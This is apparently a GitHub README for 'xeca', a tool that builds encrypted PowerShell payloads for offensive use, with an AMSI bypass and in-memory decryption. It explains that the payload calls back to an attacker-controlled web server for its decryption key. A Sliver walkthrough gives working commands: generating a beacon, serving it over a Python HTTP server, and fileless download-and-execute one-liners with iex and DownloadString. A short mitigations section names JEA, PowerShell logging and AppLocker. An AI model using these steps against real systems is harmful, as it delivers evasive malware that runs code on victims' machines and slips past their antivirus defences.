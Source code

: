 # xeca
xeca is a project that creates encrypted PowerShell payloads for offensive purposes.

Creating position independent shellcode from DLL files is also possible.

Note: Please place your custom AMSI bypass in `src/assets/amsi-bypass.ps1`.

## Table of Contents
- [xeca](#xeca)
  * [Install](#install)
  * [How It Works](#how-it-works)
  * [Mitigations](#mitigations)
  * [Examples](#examples)
    + [Covenant](#covenant)
    + [Empire](#empire)
    + [Merlin](#merlin)
    + [Sliver](#sliver)
  * [Acknowledgements](#acknowledgements)
  * [License](#license)

## Install
Firstly ensure that rust is [installed](https://www.rust-lang.org/tools/install), then build the project with the following command:
```
cargo build
```

## How It Works
1. Identify and encrypt the payload. Load encrypted payload into a powershell script and save to a file named "launch.txt"
3. The key to decrypt the payload is saved to a file named "safe.txt"
3. Execute "launch.txt" on a remote host
   - The script will call back to the attacker defined web server to retrieve the decryption key "safe.txt"
   - Decrypt the payload in memory
   - Execute the intended payload in memory

## Mitigations
If users must have access to programs such as powershell.exe, consider minimising security risks with [Just Enough Administration](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7) and [PowerShell Logging](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/wmf/whats-new/script-logging?view=powershell-7). Application control policies can be deployed via a whitelisting technology such as [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview).

## Usage
### Sliver
1. Generate a shellcode beacon -> generate beacon --format shellcode --os windows --mtls <IP>
2. Use xeca to encrypt the payload -> xeca shellcode --shellcode <shellcode>.bin --url http://<pythonhttpserver>
3. Create a python http server with the port that you provided to xeca -> python -m http.server 8080
4. Use one of the following ways to run the payload:
    - Fileless -> iex(New-Object Net.WebClient).DownloadString("http://<pythonhttpserver>/launch.txt")
    - Run from disk -> iwr "http://<pythonhttpserver>" -OutFile launch.txt; iex(cat .\launch.txt)

The launch.txt file contains the encrypted payload, it will first run an amsi bypass, and then it will load the encrypted payload, after that it will call back to the python server and grab the "safe.txt" file which will decrypt the payload in memory.

## Acknowledgements
This tool would not be possible without the sharing of knowledge and information. Ideas, snippets and code from the following authors should be acknowledged:  
[@monoxgas](https://github.com/monoxgas)  
[@H0neyBadger](https://github.com/H0neyBadger)  
[@TheWover](https://github.com/TheWover)  
[@stephenfewer](https://github.com/stephenfewer)  
[@dismantl](https://github.com/dismantl)  
[@tandasat](https://github.com/tandasat)  
[@cobbr](https://github.com/cobbr)  

## License
xeca is licensed under [GPLv3](https://www.gnu.org/licenses/gpl-3.0.en.html), some sub-components may have separate licenses. See their respective references in this project for details.
